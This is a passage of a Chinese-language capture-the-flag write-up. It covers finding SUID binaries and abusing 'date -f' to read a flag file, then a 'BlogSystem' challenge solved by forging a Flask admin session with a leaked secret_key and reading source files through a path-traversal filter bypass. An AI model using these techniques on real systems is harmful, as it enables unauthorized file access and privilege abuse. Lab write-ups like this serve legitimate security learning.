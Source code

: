 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210231837760.png)

查找带 SUID 的文件

```bash
find / -perm -u=s -type f 2>/dev/null
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210231839463.png)

发现有 date, 于是直接用 date 来读取 flag

```bash
date -f /hereisflag/flllll111aaagg
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210231839756.png)

## BlogSystem[复现]

随便注册一个用户

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210311601414.png)

点 blog 查看文章

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210311602854.png)

点开最后一篇 `flask 基础总结`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210311603552.png)

伪造 session 的 secret_key 在这里面, 只能说出题人脑洞是真的大...

之后伪造用户为 admin

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210311605528.png)

刷新网页后多了 download 选项

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210311606108.png)

存在任意文件读取

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210311607555.png)

发现会将 `..` 和 `//` 替换成空, 用如图的 payload 绕过

下面读取相关源码

```
.//././/./app.py
.//././/./view/index.py
.//././/./view/blog.py
.//././/./requirements.txt
```
